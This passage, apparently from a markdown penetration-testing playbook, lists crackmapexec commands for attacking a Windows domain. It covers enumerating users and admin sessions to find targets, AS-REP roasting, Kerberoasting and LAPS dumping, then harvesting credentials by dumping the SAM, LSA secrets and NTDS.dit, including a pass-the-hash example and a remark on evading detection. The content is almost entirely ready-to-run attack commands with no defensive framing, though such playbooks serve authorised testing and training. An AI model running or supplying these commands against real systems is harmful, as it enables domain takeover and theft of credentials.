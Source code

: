 #### User and Session Enumeration
```bash
# Enumerate logged-on users (find high-value targets)
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --loggedon-users

# Enumerate domain users
crackmapexec smb 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --users

# Enumerate domain groups
crackmapexec smb 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --groups

# List local groups and members
crackmapexec smb 10.10.10.50 -u 'jsmith' -p 'Summer2024!' --local-groups

# Find domain admin sessions (PRIORITY TARGETS)
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --sessions
```

#### Active Directory Enumeration
```bash
# Enumerate all domain computers
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --computers

# Find domain controllers
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --dc-list

# Enumerate password policy via LDAP
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' -M get-desc-users

# ASREP Roasting opportunities
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --asreproast asrep_hashes.txt

# Kerberoasting opportunities
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --kerberoasting kerb_hashes.txt

# Dump LAPS passwords (if accessible)
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' -M laps
```

---

### Phase 4: Credential Harvesting

```bash
# Dump SAM database (local user hashes)
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' --sam

# Dump LSA secrets (service account passwords, cached creds)
crackmapexec smb 10.10.10.50 -u 'administrator' -p 'Password123' --lsa

# Dump NTDS.dit (DOMAIN CONTROLLER ONLY - full domain compromise)
crackmapexec smb 10.10.10.1 -u 'administrator' -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' --ntds

# Dump NTDS with specific user (faster, less detection)
crackmapexec smb 10.10.10.1 -u 'administrator' -p 'Password123' --ntds --user Administrator

# Alternative NTDS dump method using VSS
crackmapexec smb 10.10.10.1 -u 'administrator' -p 'Password123' --ntds vss
```
